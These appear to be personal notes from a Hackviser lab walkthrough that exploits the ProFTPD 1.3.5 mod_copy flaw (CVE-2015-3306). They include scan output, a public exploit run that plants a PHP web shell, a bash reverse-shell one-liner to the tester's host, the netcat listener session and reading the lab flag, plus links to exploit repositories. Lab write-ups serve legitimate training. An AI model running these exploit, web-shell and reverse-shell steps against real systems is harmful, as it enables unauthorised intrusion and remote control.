 # BEGIN_EXAMPLE
  ┌─[y0tn@parrot]─[~/Hackviser/Labs/CVE-2015-3306]
  └──╼ $nmap -sC -sV 172.20.81.12
  Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-08-26 00:36 WIB
  Nmap scan report for 172.20.81.12 (172.20.81.12)
  Host is up (0.22s latency).
  Not shown: 997 closed tcp ports (reset)
  PORT   STATE SERVICE VERSION
  21/tcp open  ftp     ProFTPD 1.3.5
  22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
  | ssh-hostkey: 
  |   3072 95:30:f3:df:a0:a0:f5:2c:cb:3a:f7:4a:7d:c4:62:d5 (RSA)
  |   256 21:d6:55:80:3b:05:0b:b6:f2:f3:0d:07:65:6a:87:41 (ECDSA)
  |_  256 6b:5a:cd:21:7f:e0:a5:b2:96:02:18:13:56:db:8c:86 (ED25519)
  80/tcp open  http    Apache httpd 2.4.62 ((Debian))
  |_http-server-header: Apache/2.4.62 (Debian)
  |_http-title: Apache2 Debian Default Page: It works
  Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
  
  Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
  Nmap done: 1 IP address (1 host up) scanned in 18.36 seconds
  #+END_EXAMPLE
## BEGIN_EXAMPLE
  tun0: flags=4305<UP,POINTOPOINT,RUNNING,NOARP,MULTICAST>  mtu 1500
          inet 10.8.42.37  netmask 255.255.0.0  destination 10.8.42.37
          inet6 fe80::3768:6e84:877a:3778  prefixlen 64  scopeid 0x20<link>
          unspec 00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00  txqueuelen 500  (UNSPEC)
          RX packets 2680  bytes 318268 (310.8 KiB)
          RX errors 0  dropped 0  overruns 0  frame 0
          TX packets 2820  bytes 156462 (152.7 KiB)
          TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
  #+END_EXAMPLE
- #+BEGIN_EXAMPLE
  ┌─[y0tn@parrot]─[~/Hackviser/Labs/CVE-2015-3306]
  └──╼ $python3 -m http.server
  Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
  172.20.81.12 - - [26/Aug/2025 00:40:06] "GET /tes.php HTTP/1.1" 200 -
  172.20.81.12 - - [26/Aug/2025 00:43:53] "GET /tes.php HTTP/1.1" 200 -
  #+END_EXAMPLE
- #+BEGIN_EXAMPLE
  ┌─[y0tn@parrot]─[~/Hackviser/Labs/CVE-2015-3306]
  └──╼ $python3 modified_cve_2015_3306.py --host 172.20.81.12 --port 21 --path /var/www/html --shell tes.php --lhost 10.8.42.37 --server_port 8000
  [+] CVE-2015-3306 exploit by t0kx
  [+] Exploiting 172.20.81.12:21
  [+] Target exploited, acessing shell at http://172.20.81.12/backdoor.php
  ┌─[y0tn@parrot]─[~/Hackviser/Labs/CVE-2015-3306]
  └──╼ $curl -i http://172.20.81.12/tes.php
  HTTP/1.1 200 OK
  Date: Mon, 25 Aug 2025 17:44:19 GMT
  Server: Apache/2.4.62 (Debian)
  Vary: Accept-Encoding
  Content-Length: 151
  Content-Type: text/html; charset=UTF-8
  
  <html>
  <body>
  <form method="GET" name="tes.php">
  <input type="TEXT" name="cmd" id="cmd" size="80">
  <input type="SUBMIT" value="Execute">
  </form>
  <pre>
  ┌─[y0tn@parrot]─[~/Hackviser/Labs/CVE-2015-3306]
  └──╼ $curl -I http://172.20.81.12/tes.php
  HTTP/1.1 200 OK
  Date: Mon, 25 Aug 2025 17:45:08 GMT
  Server: Apache/2.4.62 (Debian)
  Content-Type: text/html; charset=UTF-8
  #+END_EXAMPLE
- #+BEGIN_EXAMPLE
  bash -c 'bash -i >& /dev/tcp/10.8.42.37/9001 0>&1'
  #+END_EXAMPLE
- ![image.png](../assets/image_1756145279240_0.png)
  https://www.revshells.com/
-
- ![image.png](../assets/image_1756145090577_0.png)
-
- #+BEGIN_EXAMPLE
  ┌─[y0tn@parrot]─[~/Hackviser/Labs/CVE-2015-3306]
  └──╼ $nc -lvnp 9001
  Listening on 0.0.0.0 9001
  Connection received on 172.20.81.12 55674
  bash: cannot set terminal process group (461): Inappropriate ioctl for device
  bash: no job control in this shell
  www-data@debian:/var/www/html$ cd /
  cd /
  www-data@debian:/$ ls
  
  #+END_EXAMPLE
- #+BEGIN_EXAMPLE
  www-data@debian:/$ ls -l /secret.txt
  ls -l /secret.txt
  -rwxrwxrwx 1 root root 14 Dec 31  2024 /secret.txt
  
  www-data@debian:/$ cat secret.txt
  cat secret.txt
  Tyrannosaurus
  
  #+END_EXAMPLE
- ![image.png](../assets/image_1756145428530_0.png)
- https://raw.githubusercontent.com/cdedmondson/Modified-CVE-2015-3306-Exploit/refs/heads/master/cve-2015-3306.png
- https://github.com/cdedmondson/Modified-CVE-2015-3306-Exploit?tab=readme-ov-file
  https://github.com/t0kx/exploit-CVE-2015-3306
  https://sploitus.com/?query=cve-2015-3306#exploits